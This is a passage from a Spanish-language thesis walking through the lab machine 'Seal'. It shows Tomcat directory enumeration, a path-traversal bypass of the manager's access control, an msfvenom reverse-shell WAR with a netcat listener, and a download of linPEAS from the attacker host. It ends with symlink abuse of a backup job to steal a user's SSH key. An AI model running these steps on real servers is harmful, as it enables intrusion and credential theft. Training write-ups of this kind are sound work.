    \subfloat[\centering \textit{Seal: 8080 Archivo \texttt{tomcat-users.xml} versión actual}]{{
\includegraphics[width=0.90\textwidth]{images/machines/seal/tomcat-users-actual.png}}}
    \qquad
    \subfloat[\centering \textit{Seal: 8080 Histórico del archivo \texttt{tomcat-users.xml}}]{{
\includegraphics[width=1.0\textwidth]{images/machines/seal/tomcat-users-history.png}}}
    \qquad
    \subfloat[\centering \textit{Seal: 8080 Archivo \texttt{tomcat-users.xml} antiguo}]{{
\includegraphics[width=1.0\textwidth]{images/machines/seal/tomcat-users-commit.png}}}
    \caption{Seal: Archivo \texttt{tomcat-users.xml}}
    \label{fig:seal-tomcat-users}
\end{figure}

Se ha mirado otros repositorios en esta web, pero no se ha encontrado nada más relevante.

\subsubsection{Puerto 443}

Lo primero que se intenta es acceder a la web principal (\texttt{https://10.10.10.250}, pero no tenemos acceso. Por eso, se ha decidido añadir el \textit{commonName} descubierto en la segunda ejecución de \textit{Nmap} (\texttt{seal.htb}) al fichero \texttt{/etc/hosts} (figura \ref{fig:seal-etc-hosts}).

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.80\textwidth]{images/machines/seal/etc-hosts.png}
    \caption{Seal: Fichero \texttt{/etc/hosts} con \texttt{seal.htb}}
    \label{fig:seal-etc-hosts}
\end{figure}

Tras modificar el archivo \texttt{/etc/hosts}, logramos entrar a la web escribiendo \texttt{\\https://seal.htb}. En esa dirección, encontramos una página web, como se muestra en la figura \ref{fig:seal-443-main}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.60\textwidth]{images/machines/seal/seal-main.png}
    \caption{Seal: 443 - Página principal}
    \label{fig:seal-443-main}
\end{figure}

Mientras se investigaba manualmente la página, se ha utilizado de nuevo la herramienta \textit{Gobuster}\cite{gobuster}. Para ello se ha utilizado el siguiente comando.
\begin{lstlisting}[language=bash]
gobuster dir -u https://seal.htb -w ~/Hacking/SecLists/Discovery/Web-Content/tomcat.txt -k | anew 03_gobuster_433.txt
\end{lstlisting}

En este comando se han usado los argumentos que se han usado previamente, aunque esta vez, al saber que estaba ejecutándose un \textit{Apache Tomcat}, se ha decidido usar la wordlist \texttt{tomcat.txt}; también se ha utilizado el argumento \texttt{-k} para omitir las comprobaciones de certificados. Posteriormente se ha ejecutado el mismo comando con la wordlist \texttt{raft-medium-words.txt}.\\

Del resultado obtenido\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/03_gobuster_433.txt}{Output de \textit{03\_gobuster\_433.txt}}} destacan:

\begin{itemize}
    \item \texttt{/host-manager/html/*} (devuelve 403 - Forbbiden)
    \item \texttt{/host-manager}
    \item \texttt{/manager}
    \item \texttt{/manager/html} (devuelve 403 - Forbbiden)
    \item \texttt{/manager/html/*} (devuelve 403 - Forbbiden)
    \item \texttt{/manager/jmxproxy} (devuelve 401 - Unauthorized)
    \item \texttt{/manager/jmxproxy/*} (devuelve 401 - Unauthorized)
    \item \texttt{/manager/status/*} (devuelve 401 - Unauthorized)
    \item \texttt{/manager/status.xsd}
\end{itemize}

\subsection{Ganando acceso}

Lo primero que se decide hacer es intentar entrar al servidor \acrshort{ssh} con las credenciales obtenidas y con credenciales comunes. Como se aprecia en la figura \ref{fig:seal-ssh-facil}, no tenemos éxito.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.70\textwidth]{images/machines/seal/ssh-tomcat.png}
    \caption{Seal: Intento \acrshort{ssh} fallido}
    \label{fig:seal-ssh-facil}
\end{figure}

Dado nuestro fallido éxito con el servidor \acrshort{ssh}, se decide investigar las \acrshort{uri}s anteriores, pero solo en \texttt{/manager/status} podemos entrar, ya que nos pide usuario y contraseña, y estos, los habíamos conseguido anteriormente (figura \ref{fig:seal-tomcat-users}-c). Al entrar podemos comprobar la página de estado de \textit{Tomcat}. Vemos que se está ejecutando \textit{Apache Tomcat 9.0.31}\cite{tomcat}. Se decide buscar vulnerabilidades conocidas, pero no se encuentra nada explotable.\\

Entonces se decide investigar si se puede realizar \textit{path traversal} y así poder acceder a las \acrshort{uri}s \texttt{/manager/html/*} y \texttt{/manager/jmxproxy/*}. Se prueban varios payloads, como:
\begin{itemize}
    \item \texttt{/manager/status/../html}
    \item \texttt{/manager/status/../../manager/html}
    \item \texttt{/manager/status/..\textbackslash html}
    \item \texttt{/manager/status/\%2e\%2e/html}
    \item \texttt{/manager/status/\%2e\%2e\%2fhtml}
    \item \texttt{/manager/status/;/html}
    \item \ldots
\end{itemize}

Finalmente, damos con el payload correcto, \texttt{/manager/status/../;/html}. Probamos con el mismo payload, pero intentando acceder a \texttt{jmxproxy}, pero aparece una página de ayuda de \textit{Tomcat}. En la página encontramos la opción de desplegar un archivo \texttt{.war} a la web, por eso, se decide utilizar la herramienta \textit{msfvenom}\cite{msfvenom} para crear una shell remota. Lo logramos con:
\begin{lstlisting}[language=bash]
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.49 LPORT=6969 -f war > shell.war
\end{lstlisting}

Antes de subir el archivo al servidor, se ha creado un \textit{netcat}\cite{netcat} local para cuando se establezca la ćonexión. Para ello, se ha utilizado el siguiente comando.
\begin{lstlisting}[language=bash]
nc -lvnp 6969
\end{lstlisting}

Al subir el archivo a la web, esta nos devuelve un código \textit{403 - Forbidden}, por lo que decidimos interceptar la llamada con \textit{Burp Suite}\cite{burpsuite}. Rápidamente nos damos cuenta que, la \acrshort{url} utilizada en la petición es \texttt{/manager/html/} (figura \ref{fig:seal-war-no-editado}), por eso se edita para que sea \texttt{/manager/status/../;/html/} y con eso, logramos subir el archivo \texttt{shell.war} (figura \ref{fig:seal-war-editado}).

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.95\textwidth]{images/machines/seal/war-sin-editar.png}
    \caption{Seal: Subida de \texttt{shell.war} fallida}
    \label{fig:seal-war-no-editado}
\end{figure}

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.95\textwidth]{images/machines/seal/war-editado.png}
    \caption{Seal: Subida de \texttt{shell.war} exitosa}
    \label{fig:seal-war-editado}
\end{figure}

Al subir el archivo, en la \textit{uri} \texttt{/manager/status/../;/html} ahora aparece otra nueva \textit{uri} que es \texttt{/shell}. Al ir a esa \acrshort{uri}, se ejecuta nuestro archivo \texttt{shell.war} y se nos crea una conexión con la máquina, como se puede apreciar en la figura \ref{fig:seal-nc-tomcat}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.6\textwidth]{images/machines/seal/nc-tomcat.png}
    \caption{Seal: Conexión con el servidor \textit{Tomcat} con usuario \textit{tomcat}}
    \label{fig:seal-nc-tomcat}
\end{figure}

Ya que el shell que obtenemos es algo rudimentario (no nos permite utilizar las flechas de movimiento, o funciones de búsqueda), decidimos mejorarlo. Para ello se realizan los siguientes pasos:
\begin{enumerate}
    \item Primero, investigamos si está \textit{Python} instalado, utilizando el comando \texttt{which python python2 python3}. Con esto descubrimos que podemos utilizar \textit{Python 3}.
    \item Ejecutamos el siguiente comando en la máquina víctima: \texttt{python3 -c `import pty; pty.spawn(``/bin/bash``)`}
    \item En la máquina, pulsamos los botones \texttt{Ctrl + z} para dormir el proceso actual.
    \item Luego, en la máquina host (no la víctima) se escribe \texttt{stty raw -echo}.
    \item Volvemos a activar el proceso dormido anteriormente con \texttt{fg}.
    \item Se crean las siguientes variables de entorno \texttt{export SHELL=bash \&\& export TERM=xterm-256color}
    \item Por último, se ejecuta el comando \texttt{reset}.
\end{enumerate}

Tras realizar esto, logramos tener un shell completamente funcional.\\

A continuación se decide utilizar la herramienta \textit{linPEAS}\cite{peas}. Para añadir el script a la víctima, se decide levantar un servidor \acrshort{http} temporal en la máquina host que contiene el script \texttt{linpeas.sh}. Esto se hace con el comando:
\begin{lstlisting}[language=bash]
python -m http.server 8000
\end{lstlisting}

Y en la máquina víctima nos lo bajamos con \texttt{wget}.

\begin{lstlisting}[language=bash]
wget http://10.10.14.49:8000/linpeas.sh
\end{lstlisting}

Una vez tenemos el archivo en la máquina víctima, le damos permisos de ejecución (\texttt{chmod +x linpeas.sh}) y lo ejecutamos.\\

El resultado de \textit{linPEAS}\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/04_linpeas.txt}{Output de \textit{04\_linpeas.txt}}}, encontramos varios posibles vectores de ataque, pero ninguno ha resultado ser explotable. También se han encontrado algunos archivos ``extraños`` como \texttt{/opt/backups/archives/} y \texttt{/opt/backups/playground/} y archivos y procesos del usuario \textit{luis}.\\

\textit{\textbf{Nota}: con linPEAS se ha encontrado que \texttt{/usr/bin/bash} es vulnerable y es explotable para obtener un shell como root, pero se ha decidido no atacar ya que ese vector de ataque es el objetivo de esta máquina, lo que significa que otra persona ya había explotado la máquina y conseguido una shell. Por eso, se ha decidido reiniciar la máquina y dicho vector de ataque ha desaparecido.}\\

Se ha intentado acceder a los archivos de \textit{luis}, como son \texttt{/home/luis/}, \texttt{/home/luis\\/.ssh} o \texttt{/home/luis/documents}, pero no se ha logrado nada, ya que con el usuario actual (\textit{tomcat}) no tenemos permisos.\\

Dada la falta de exito investigando al usuario \textit{luis}, se decide investigar los archivos y directorios ``extraños`` mencionados anteriormente. En \texttt{/opt/backups/playground} se ha encontrado un archivo \texttt{run.yml} (figura \ref{fig:seal-run}). Se ha investigado en \textit{Google} y se ha encontrado que es un \textit{Ansible Playbook}\cite{ansible-playbooks}. Leyendo el archivo \texttt{run.yml}, vemos que realiza un backup del directorio \texttt{/var/lib/tomcat9/webapps/ROOT/admin\\/dashboard}.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/machines/seal/run-yml.png}
    \caption{Seal: Archivo \texttt{run.yml}}
    \label{fig:seal-run}
\end{figure}

Decidimos copiar los directorios home de \textit{luis} y \textit{root} en \texttt{/var/lib/tomcat9/webapps\\/ROOT/admin/dashboard} (figura \ref{fig:seal-simb}), pero no tenemos permisos para realizar ninguna de las dos copias. Probamos a hacerlo con enlaces simbólicos. Primero probamos a copiar el home de \textit{luis} a la ruta mencionada, pero no podemos crear archivos en dicha ruta. Se ha investigado qué hay en \texttt{/var/lib/tomcat9/webapps/ROOT/admin/dashboard} y se han encontrado varios directorios. Se decide intentar crear el enlace simbólico en uno de esos directorios (\texttt{uploads}) y logramos copiar tanto el home de \textit{luis}, como el de \textit{root}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.9\textwidth]{images/machines/seal/enlaces-simb.png}
    \caption{Seal: Copia de enlaces simbólicos}
    \label{fig:seal-simb}
\end{figure}

Al copiarlo y esperar al rededor de 10 segundos, se ha generado un archivo de \textit{backup} en \texttt{/opt/backups/files}. Copiamos el archivo en una ruta temporal creada por nosotros (\texttt{/tmp/69}) para que sea más fácil de manejar y gestionar. Descomprimimos el archivo comprimido y vemos que se han copiado los archivos del home de \textit{luis}, pero no los de \textit{root}.\\

Investigando los archivos de \textit{luis}, encontramos una clave \acrshort{ssh} del usuario (figura \ref{fig:seal-luis-clave})\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/luis_id_rsa}{Archivo \textit{luis\_id\_rsa}}}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.6\textwidth]{images/machines/seal/rsa-luis.png}
    \caption{Seal: Clave \acrshort{ssh} de \textit{luis}}
    \label{fig:seal-luis-clave}
\end{figure}

Copiamos la clave en nuestro equipo e intentamos acceder vía \acrshort{ssh} al servidor (figura \ref{fig:seal-ssh-luis}). Logramos entrar con éxito y encontrar el flag del usuario en \texttt{/home/luis/user.txt}.
\begin{figure}[h]
    \centering
